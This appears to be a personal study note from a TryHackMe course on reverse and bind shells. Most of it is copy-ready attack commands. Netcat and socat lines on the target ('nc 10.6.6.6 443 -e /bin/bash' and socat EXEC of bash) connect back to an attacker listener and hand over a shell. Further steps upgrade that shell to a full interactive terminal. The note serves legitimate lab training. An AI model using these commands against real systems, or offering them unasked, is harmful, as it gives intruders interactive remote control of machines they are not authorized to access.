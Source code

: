 ## reverse shell basic example

Topics: [[cybersecurity]]  [[tryhackme]]

---
# Reverse Shell Basic Examples

```
# attackBox = local attacking machine
# targetBox = remote target machine

# Example configuration
attackBox IP address = 10.6.6.6
targetBox IP address = 192.168.8.8
```
**Reverse shells**
- The attackBox starts a listener for incoming connections.   
- The targetBox executes code to connect back to the attackBox IP address and listening port giving shell access to the target.

**Bind shells**  
- The targetBox executes code to start a listener attached to a shell.  
- The attackBox connects to targetBox IP addressand listening port gaining shell access.
- Bind shells may be prevented by firewalls.

## Netcat
If netcat is not installed
```sh
sudo apt install netcat
```
### Netcat Basic Usage

1. `attackBox:~$ _` start listener on port 443   
   - *Listener ports below 1024 will require sudo*

```sh
sudo nc -lvnp 443
```  
About command syntax
```text
`-l` (listen)  
`-v` (give more verbose output)  
`-n` (do not use DNS hostname lookup)  
`-p` (specify port number)  
```

2. `targetBox:~$ _`
```sh
nc 10.6.6.6 443 -e /bin/bash
```
If connection is successful a result should be displayed on `attackBox` (similar to)  
```sh
connect to [10.6.6.6] from (UNKNOWN) [192.168.8.8] 55123
```
`attackBox:~$ _` `CTRL-C` to terminate the connection.


### Netcat Advanced Usage
*Improve usability and shell stabilisation*
#### Python method

1. `attackBox:~$ _`
```sh
sudo nc -lvnp 443
```  
2. `targetBox:~$ _`
```sh
sudo nc 10.6.6.6 443 -e /bin/bash
```  
Upon successful connection  
3. `attackBox:~$ _`
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```  
4. `attackBox~$ _` `CTRL-Z` to suspend the current foreground process 
5. `attackBox~$ _`
```sh
stty raw -echo; fg
```  
***You should now have full remote shell access to `targetBox`***
   
*Upon shell disconnection there will be no terminal output.  
`attackBox~$ _` `reset` to reset the terminal settings

#### rlwrap method

If rlwrap is not installed
```sh
sudo apt install rlwrap`
```
1. `attackBox:~$ _`
```sh
sudo rlwrap nc -lvnp 443
```  
2. `targetBox:~$ _`
```sh
sudo nc 10.6.6.6 443 -e /bin/bash
```  
Upon successful connection  
3. `attackBox~$ _` `CTRL-Z` to suspend the current foreground process   
4. `attackBox~$ _`
```sh
stty raw -echo; fg
```  

## socat
*Requires socat on both attack and target boxes.*
```sh
sudo apt install socat
```

#### Basic Usage
1. `attackBox:~$ _`
```sh
socat TCP-L:443 -
```  
2. `targetBox:~$ _`
```sh
sudo socat TCP:10.6.6.6:443 EXEC:"bash -li"
```  

#### Advanced Usage
1. `attackBox:~$`
```console
sudo socat TCP-L:443 FILE:`tty`,raw,echo=0
```
2. `targetBox:~$_`
```console
socat TCP:10.6.6.6:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Resources and References  
- [TryHackMe intro to shells](https://tryhackme.com/room/introtoshells)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
